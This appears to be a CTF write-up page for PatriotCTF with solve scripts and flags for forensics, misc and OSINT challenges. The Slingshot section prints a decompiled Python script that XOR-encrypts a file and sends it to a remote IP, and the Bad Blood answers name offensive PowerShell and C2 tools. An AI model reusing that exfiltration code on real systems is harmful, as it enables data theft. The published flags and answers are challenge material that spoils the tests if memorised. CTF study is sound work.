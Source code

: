 # PATRIOTCTF

## FORENSICS

## BAD BLOOD

### Oppgave

*PS: Hele oppgaven finnes [her](forensics/Bad_Blood/challenge.md)*

### Løsning

```py
from pwn import *

while True:
    io = remote("chal.pctf.competitivecyber.club", 10001)

    solutions = [
        b"Invoke-P0wnedshell.ps1",
        b"Invoke-UrbanBishop.ps1",
        b"WinRM",
        b"Covenant"
    ]
    for solution in solutions:
        io.sendlineafter(b">> ", solution)

    io.interactive()

    io.close()
```

<details>
<summary>Flagg</summary>

`pctf{3v3nt_l0gs_reve4l_al1_a981eb}`
</details>


## SLINGSHOT

### Oppgave

*PS: Hele oppgaven finnes [her](forensics/Slingshot/challenge.md)*

### Løsning

Exporting files from all packets in Wireshark will result in many files called %, etc and one called download.pyc
This file can be decompiled to python using [PyLingual](https://pylingual.io/view_chimera?identifier=b8c58f248600bfa1f83337bd7bb8f6f5a64a16219e56db0e3a2257ca23afc623):

```py
# Source timestamp: 2024-09-17 17:47:38 UTC (1726595258)
import sys
import socket
import time
import math

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
file = sys.argv[1]
ip = sys.argv[2]
port = 22993

with open(file, 'rb') as r:
    data_bytes = r.read()

current_time = time.time()
current_time = math.floor(current_time)
key_bytes = str(current_time).encode('utf-8')
init_key_len = len(key_bytes)
data_bytes_len = len(data_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]
encrypt_bytes = bytes((a ^ b for a, b in zip(key_bytes, data_bytes)))

s.connect((ip, port))
s.send(encrypt_bytes)
```

The program connects to some ip using port `22993`. Follow the TCP stream for traffic at this port in Wireshark to get the output from the python program. The python program can now be reversed with ChatGPT to get the original file.
There is only one problem. The timestamp for when the program was run is needed to decrypt the message. What we have so far is the timestamp for when the file was created.

To get the correct timestamp first try the timestamp `1726595769` and look at the output. The output is very close to correct, but there are some wierd artifacts. We just need to adjust one number at the time until the words of the file are readably correct. We end up with the timestamp `1726595769`:

```py
import socket

# Open file
with open("dump2.bin", 'rb') as f:
    encrypted_bytes = f.read()

# Timestamp
key_bytes = "1726595769".encode('utf-8')
init_key_len = len(key_bytes)
data_bytes_len = len(encrypted_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]

# Decrypt using XOR
decrypted_bytes = bytes((a ^ b for a, b in zip(key_bytes, encrypted_bytes)))

# Optionally, save the decrypted data to a file
with open("flag.png", 'wb') as f:
    f.write(decrypted_bytes)
```

This creates an image with the flag printed on to it-.

<details>
<summary>Flagg</summary>

`PCTF{1f_y0o_41n7_f1r57_y0ur3_l457}`
</details>



## MISC

## EMOJI STACK

### Oppgave



*PS: Hele oppgaven finnes [her](misc/Emoji_Stack/challenge.md)*

### Løsning

To avoid making it too complivated I desided to try to translate it to Brainfuck. This python script convert the emojies to Brainfuck syntax. Then I ran it in this online [Brainfuck interpreter](https://sange.fi/esoteric/brainfuck/impl/interp/i.html).

```py
code = "👉👉👉👉👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁08👍🔁34👈👈👈👈👈👈👈👈👈👈👍🔁48👉🔁15👍🔁5e👈🔁07👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁02👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👍🔁42👉🔁02👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁17👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈🔁14👍🔁20👉🔁06👍🔁51👉🔁0c👍🔁34👉👉👍🔁46👈🔁14👍🔁4d👈🔁01👍🔁51👉🔁04👍🔁20👉🔁03👍🔁2f👉👉👉👉👉👉👉👉👍🔁4d👈🔁17👍🔁42👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👍🔁7c👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁0c👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈👈👈👈👈👈👈👈👈👈👈👈👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁0c👍🔁32👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁04👍🔁5e👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👍🔁47👈🔁0f👍🔁46👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈🔁03👍🔁20👈🔁08👍🔁5e👉🔁10👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈🔁1d👍🔁40👉🔁10👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉👉👉👉👍🔁5e👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬"

code = code.replace("👉", ">")
code = code.replace("👈", "<")
code = code.replace("👍", "+")
code = code.replace("👍", "+")
code = code.replace("💬", ".")

while True:
    try:
        index = code.find("🔁")
        symbol = code[index-1]
        count = int(code[index+1:index+3],16)
        code = code[:index] + symbol*count + code[index+3:]
        print(count)
    except ValueError:
        break
print(code)
```

<details>
<summary>Flagg</summary>

`CACI{TUR!NG_!5_R011!NG_!N_H!5_GR@V3}`
</details>


## MAKING BAKING PANCAKES

### Oppgave

```
Welcome to the pancake shop!
Pancakes have layers, we need you to get through them all to get our secret pancake mix formula.
This server will require you to complete 1000 challenge-responses.
A response can be created by doing the following:
1. Base64 decoding the challenge once (will output (encoded|n))
2. Decoding the challenge n more times.
3. Send (decoded|current challenge iteration)
Example response for challenge 485/1000: e9208047e544312e6eac685e4e1f7e20|485
Good luck!
```

*PS: Hele oppgaven finnes [her](misc/Making_Baking_Pancakes/challenge.md)*

### Løsning

```py
from pwn import *

io = remote("chal.pctf.competitivecyber.club", 9001)

for i in range(1000):
    # Read challenge
    io.recvuntil(b"Challenge: ")
    challenge = b64d(io.recvline())
    challenge = challenge.split(b"|")
    
    # Read challenge number
    io.recvuntil(b"(")
    chall_num = io.recvuntil(b"/", drop=True)
    
    # Decrypt n times
    for n in range(int(challenge[1])):
        challenge[0] = b64d(challenge[0]).decode("utf-8")

    # Concat answer
    answer = (challenge[0] + "|" + str(int(chall_num))).encode('utf-8')
    print(answer)

    # Send answer
    io.sendlineafter(b">>", answer)

io.interactive()
```

<details>
<summary>Flagg</summary>

`pctf{store_bought_pancake_batter_fa82370}`
</details>



## OSINT

## NIGHT SCHOOL

### Oppgave

*PS: Hele oppgaven finnes [her](osint/Night_School/challenge.md)*

### Løsning

As the name inplies it should be a school and it should be in Fairfax. Therefor the search query was `George Mason University statues three`.

<details>
<summary>Flagg</summary>

`PCTF{Communitas}`
</details>


